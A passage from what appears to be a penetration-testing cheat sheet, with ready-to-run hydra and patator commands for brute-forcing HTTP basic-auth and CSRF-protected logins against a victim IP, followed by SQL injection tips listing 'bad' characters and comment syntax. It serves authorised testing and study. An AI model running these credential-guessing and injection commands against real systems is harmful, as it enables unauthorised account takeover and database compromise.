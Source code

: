 HTTP BasicAuth (GET request):

```bash
# hydra http basic auth brute force
# Use https-get for https
# '-u' loops users before moving onto next password
hydra -u -L users.txt -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt "http-get://$VICTIM_IP/loginpage:A=BASIC"
```

CSRF Tokens defeat hydra, so use `patator`: (documentation in [`patator.py`](https://github.com/lanjelot/patator/blob/master/patator.py))

```sh
# before_urls visits the login page where the CSRF token is
# before_egrep uses regex to extract the CSRF token
# bug in reslover means you have to tell it to resolve IP to itself
# use `--debug --threads=1 proxy=127.0.0.1:8080 proxy_type=http` for troubleshooting with burp and debug logging.
patator http_fuzz --threads=10 --max-retries=0 --hits=patator-hits.txt method=POST follow=1 accept_cookie=1 timeout=5 auto_urlencode=1 resolve=VICTIM_IP:VICTIM_IP url="http://VICTIM_IP/login" body='csrf_token=__CSRF__&usernameD=FILE0&password=FILE1' 0=users.txt 1=cewl.txt before_urls="http://VICTIM_IP/login" before_egrep='__CSRF__:value="(\w+)" id="login__csrf_token"' -x ignore:fgrep='No match'
```



### 2.6.3 SQL Injection

Tips:
- Test for SQL/NoSQL injection using "bad" chars: `'")}$%%;\`
  - Full list:
    ```
    '
    "
    \
    ;
    `
    )
    }
    --
    #
    /*
    //
    $
    %
    %%
    ```
- Watch out for apps stripping required trailing whitespace after `--`. Use `-- #` or similar.
- SQL comments:
  - `--` - requires trailing whitespace, widely supported
  - `/*` - multi-line comment, widely supported
  - `#` - MySQL
  - `REM` - Oracle
- When detecting errors due to SQLi, it may not be an obvious error message. Look for pattern changes/missing output to indicate error.
